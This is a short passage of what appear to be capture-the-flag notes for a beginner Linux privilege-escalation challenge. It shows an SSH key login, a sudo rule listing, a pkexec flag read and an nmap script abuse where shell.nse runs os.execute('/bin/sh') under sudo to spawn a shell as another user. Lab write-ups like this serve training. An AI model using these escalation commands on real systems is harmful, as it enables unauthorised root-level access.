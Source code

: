 
chmod 400 id_ed25519
ssh -i id_ed25519 cerealkiller@beginner-linux.hfctf.ca


runuser nmapuser -s /bin/bash -c "nmap --script=/home/cerealkiller/ 127.0.0.1"

    (phantom) NOPASSWD: ALL
    (vimuser) NOPASSWD: /usr/bin/vim
    (nmapuser) NOPASSWD: /usr/bin/nmap
    (pathuser) NOPASSWD: /home/pathuser/pathuser.sh

    pkexec --user phantom cat /home/nmapuser/flag.txt

sudo -u nmapuser /usr/bin/nmap --script=/tmp/ 127.0.0.1

shell.nse
os.execute('/bin/sh')
